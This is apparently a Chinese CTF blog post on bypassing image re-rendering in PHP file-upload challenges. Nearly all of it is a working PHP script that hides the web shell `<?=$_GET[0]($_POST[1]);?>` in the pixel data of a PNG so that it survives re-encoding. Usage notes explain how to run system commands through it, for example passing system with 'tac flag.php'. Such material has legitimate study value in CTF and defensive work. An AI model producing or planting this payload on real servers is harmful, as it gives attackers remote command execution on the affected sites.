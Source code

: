 ```yaml
---
title: 文件上传---二次渲染
date: 2024-07-31 23:01:40
permalink: /pages/d3df81/
categories:
  - web
tags:
  - php
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# 文件上传---二次渲染

## PNG二次渲染

脚本直接梭哈

这里的脚本只能生成固定的图片，php内容是`<?=$_GET[0]($_POST[1]);?>`

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
 

$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'1.png');  //要修改的图片的路径
 
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */
//imagepng($img,'1.png');  要修改的图片的路径,1.png是使用的文件，可以不存在
//会在目录下自动创建一个1.png图片
//图片脚本内容：$_GET[0]($_POST[1]);
//使用方法：例子：查看图片，get传入0=system；post传入tac flag.php
?>
```
